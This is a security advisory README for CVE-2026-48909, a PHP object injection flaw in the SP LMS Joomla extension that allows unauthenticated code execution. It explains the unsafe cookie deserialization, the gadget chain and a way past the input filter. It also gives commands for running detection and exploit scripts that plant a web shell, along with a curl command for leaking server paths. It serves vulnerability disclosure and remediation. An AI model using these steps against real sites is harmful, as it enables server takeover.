

# CVE-2026-48909 — SP LMS PHP Object Injection → RCE

[](https://www.cve.org/CVERecord?id=CVE-2026-48909)
[](https://vulnerability.circl.lu/vuln/cve-2026-48909)
[](https://cwe.mitre.org/data/definitions/502.html)
[](https://www.joomshaper.com/joomla-extensions/sp-lms)
[](https://www.joomshaper.com/joomla-extensions/sp-lms)

> **Unauthenticated Remote Code Execution** via PHP Object Injection in JoomShaper SP LMS (com_splms) ≤ 4.1.3 for Joomla CMS.

**Author:** Amin İsayev / Proxima Cyber Security

---

## Overview

**SP LMS** is a popular Joomla Learning Management System extension by JoomShaper with 100,000+ installations. Versions ≤ 4.1.3 pass the `lmsOrders` cookie directly to `unserialize()` without any validation, enabling an unauthenticated attacker to inject a malicious PHP object and achieve Remote Code Execution through Joomla's native gadget chain.

| Field | Details |
|---|---|
| **CVE ID** | CVE-2026-48909 |
| **GHSA** | GHSA-gf8c-xmwj-whrh |
| **Affected** | SP LMS (com_splms) 1.0.0 – 4.1.3 |
| **Fixed in** | SP LMS ≥ 4.1.4 |
| **Joomla req.** | < 5.2.2 (gadget chain patched in 5.2.2) |
| **CVSS 4.0** | **9.5 Critical** — AV:N/AC:L/AT:P/PR:N/UI:N |
| **CWE** | CWE-502: Deserialization of Untrusted Data |
| **Auth required** | None |
| **Disclosed** | 2026-05-26 |
| **Published** | 2026-06-20 |

---

## Vulnerability

### Root Cause

`components/com_splms/models/cart.php` line 28:

```php
$cookie  = Factory::getApplication()->input->cookie;
$raw     = $cookie->get('lmsOrders', base64_encode(serialize(array())));
$decoded = base64_decode($raw);
$cartItems = unserialize($decoded);   // ← untrusted user input
```

The `lmsOrders` cookie is base64-decoded and passed directly to `unserialize()`. An attacker controls the deserialized object entirely.

### Gadget Chain

Joomla's `FormattedtextLogger` class provides the gadget:

```
lmsOrders cookie (attacker-controlled)
  └─► unserialize()                             [cart.php:28]
        └─► FormattedtextLogger.__destruct()    [Joomla gadget]
              └─► initFile() → File::write($path, $format)
                    └─► PHP code written to disk → RCE
```

> **Note:** RCE requires Joomla < 5.2.2.  
> Joomla 5.2.2 patched `FormattedtextLogger.__wakeup()` (see [PR #44428](https://github.com/joomla/joomla-cms/pull/44428)).  
> PHP Object Injection still exists in com_splms ≤ 4.1.3 on all Joomla versions.

### Filter Bypass

Joomla's `Input\Cookie::get()` applies a `cmd` filter by default, stripping `+`, `/`, and `=` from the cookie value — characters present in standard base64. The exploit uses:

- **hex2bin()** encoding to avoid forbidden PHP chars (`$`, `_`, `{`, `}`, `\n`)
- **Padding alignment** to ensure base64 length is divisible by 3 (no `=` padding)
- **Padding character iteration** (62 variants) to eliminate `/` and `+` from base64 output

---

## Proof of Concept

### Detection

```bash
python3 CVE-2026-48909.py https://target.com
```

```
[*] Target : https://target.com
[*] Path   : /index.php?option=com_splms&view=cart
[*] Probe  : lmsOrders=Tzo4OiJzdGRDbGFzcyI6MDp7fQ==

[VULNERABLE] HTTP 500 on probe vs 200 on benign — unserialize() called on cookie
[!] Update to SP LMS >= 4.1.4 immediately.
```

### Exploit

```bash
python3 CVE-2026-48909_exploit.py https://target.com /var/www/html/tmp/x.php
```



> Shell active at `https://target.com/tmp/x.php?c=id`

**Finding the server path** (if unknown):

```bash
# cPanel hosting — path leaks from Joomla error pages
curl -sk "https://target.com/administrator/" | grep -oP '\/home\d*\/[^"<\s]+'

# Common paths to try:
#   /var/www/html/tmp/x.php
#   /home/USER/public_html/tmp/x.php
#   /var/www/vhosts/DOMAIN/httpdocs/tmp/x.php
```

---

## Requirements

```bash
pip install requests
```

Python 3.10+

---

## Fix / Remediation

1. **Update** SP LMS to version **≥ 4.1.4** immediately
2. **Update** Joomla to **≥ 5.2.2** to remove the gadget chain
3. As interim mitigation — validate and sanitize `lmsOrders` cookie before deserialization:

```php
// Do NOT use unserialize() on user-controlled data
// Use json_encode/json_decode instead
$cartItems = json_decode(base64_decode($raw), true) ?? [];
```

---

## Timeline

| Date | Event |
|------|-------|
| 2026-04-XX | Vulnerability discovered |
| 2026-05-02 | Reported to JoomShaper |
| 2026-05-26 | CVE-2026-48909 assigned |
| 2026-05-XX | SP LMS 4.1.4 released (patch) |
| 2026-06-20 | Public disclosure |

---

## References

- [CVE-2026-48909 — cve.org](https://www.cve.org/CVERecord?id=CVE-2026-48909)
- [CVE-2026-48909 — NVD](https://nvd.nist.gov/vuln/detail/CVE-2026-48909)
- [GHSA-gf8c-xmwj-whrh — GitHub Advisory](https://github.com/advisories/GHSA-gf8c-xmwj-whrh)
- [Joomla PR #44428 — FormattedtextLogger gadget patch](https://github.com/joomla/joomla-cms/pull/44428)
- [CWE-502: Deserialization of Untrusted Data](https://cwe.mitre.org/data/definitions/502.html)
- [OWASP: PHP Object Injection](https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection)

---

## Disclaimer

This tool is released for **educational purposes** and **authorized security testing only**.  
The author is not responsible for any misuse or damage caused by this program.  
**Do not use against systems you do not own or have explicit written permission to test.**

---

*Amin İsayev / Proxima Cyber Security — 2026*
